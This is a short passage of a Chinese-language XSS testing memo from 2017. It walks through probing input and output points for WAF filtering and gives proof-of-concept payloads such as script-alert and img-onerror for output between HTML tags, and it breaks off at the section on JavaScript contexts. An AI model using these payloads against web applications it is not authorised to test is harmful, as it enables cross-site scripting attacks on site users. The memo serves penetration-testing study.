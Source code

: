 ```yaml
---
title:  XSS测试备忘录
subtitle: XSS
time: 2017.10.19 10:00:00
layout: post
catalog: true
tags:
- Web
- XSS

excerpt: XSS测试备忘录，总结版。

---
```


# XSS备忘录

## 0x00 渗透流程

1. 观察输入输出点，测试waf过滤情况

   ```javascript
   简单: "'<script javascript onload src><a href></a>#$%^
   全面: '";!-=#$%^&{()}<script javascript data onload href src img input><a href></a>alert(String.fromCharCode(88,83,83));prompt(1);confirm(1)</script>
   ```

   观察输入输出情况，一些特殊字符是否被编码、标签是否被过滤、输出点在标签之间或标签之内

2. 依据输出位置进行XSS

   - 标签之间：

     ```javascript
     模型： <div>[xss]</div>
     payload： <script>alert(1)</script>或者<img src=1 onerror=alert(1)>
     这些标签有：
     <a> <p> <img> <body> <button> <var> <div> <object> <input> <select> <keygen> <frameset>  <embed> <svg> <video> <audio>
     自带HtmlEncode（转义）功能的标签(RCDATA)，这是插入的javascript不会被执行，除非我们闭合掉它们。
     <textarea></textarea>
     <title></title>
     <iframe></iframe>
     <noscript></noscript>
     <noframes></noframes>
     <xmp></xmp>
     <plaintext></plaintext>
     其他：<math></math>也不行 
     ```

   - 在JS标签内：
